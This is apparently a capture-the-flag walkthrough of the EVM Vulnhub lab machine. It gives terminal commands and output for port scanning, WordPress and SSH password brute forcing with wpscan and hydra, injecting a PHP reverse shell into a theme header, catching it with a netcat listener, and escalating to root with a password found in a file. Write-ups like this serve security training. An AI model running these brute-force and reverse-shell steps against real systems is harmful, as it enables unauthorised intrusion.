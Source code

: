 ```yaml
---
title: "EVM Vulnhub CTF Walkthrough"
description: "EVM Vulnhub CTF Walkthrough"
---
```


{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/EVM]
└─$ nmap -p- -sV 192.168.56.103 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-27 05:02 EDT
Nmap scan report for 192.168.56.103
Host is up (0.0016s latency).
Not shown: 65528 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
53/tcp  open  domain      ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE; OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.56.103 
/wordpress            (Status: 301) [Size: 320] [--> http://192.168.56.103/wordpress/
{% endhighlight %}

{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://192.168.56.103/wordpress -U c0rrupt3d_brain -P /usr/share/wordlists/rockyou.txt
[!] Valid Combinations Found:
 | Username: c0rrupt3d_brain, Password: 24992499
{% endhighlight %}

We'll use that later to get into the WP instance. 

Checking the mountable shares with smbmap revealed nothing that we can mount. 

Back to the wp instance, we'll edit the theme header to inject the php reverse 
shell. 

Setting up the listener and getting a shell
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ nc -lp 6666               
Linux ubuntu-extermely-vulnerable-m4ch1ine 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:46:13 up 15 min,  0 users,  load average: 0.12, 1.22, 1.60
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
{% endhighlight %}


Spawning an interactive shell: 
{% highlight terminal %}
$ python -c 'import pty; pty.spawn("/bin/bash");'
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/$ 
{% endhighlight %}

user root3r identified. Let's try to brute force our way into the ssh service. 
{% highlight terminal %}
$ python -c 'import pty; pty.spawn("/bin/bash");'
┌──(kali㉿kali)-[~]
└─$ hydra -l root3r -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.103 -V
{% endhighlight %}
No luck there. 


root3r home directory
{% highlight terminal %}
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ ls -asl
ls -asl
total 40
4 drwxr-xr-x 3 www-data www-data 4096 Nov  1  2019 .
4 drwxr-xr-x 3 root     root     4096 Oct 30  2019 ..
4 -rw-r--r-- 1 www-data www-data  515 Oct 30  2019 .bash_history
4 -rw-r--r-- 1 www-data www-data  220 Oct 30  2019 .bash_logout
4 -rw-r--r-- 1 www-data www-data 3771 Oct 30  2019 .bashrc
4 drwxr-xr-x 2 www-data www-data 4096 Oct 30  2019 .cache
4 -rw-r--r-- 1 www-data www-data   22 Oct 30  2019 .mysql_history
4 -rw-r--r-- 1 www-data www-data  655 Oct 30  2019 .profile
4 -rw-r--r-- 1 www-data www-data    8 Oct 31  2019 .root_password_ssh.txt
0 -rw-r--r-- 1 www-data www-data    0 Oct 30  2019 .sudo_as_admin_successful
4 -rw-r--r-- 1 root     root        4 Nov  1  2019 test.txt
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$
{% endhighlight %}

.root_password_ssh.txt gives us a password. That pasword didn't work when logging
in as root over SSH. 

Getting root shell:
{% highlight terminal %}
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ su root
su root
Password: willy26
root@ubuntu-extermely-vulnerable-m4ch1ine:~# ls -a
ls -a
.   .bash_history  .cache          .nano     proof.txt
..  .bashrc        .mysql_history  .profile
root@ubuntu-extermely-vulnerable-m4ch1ine:~# cat proof.txt
cat proof.txt
voila you have successfully pwned me :) !!!
:D
{% endhighlight %}

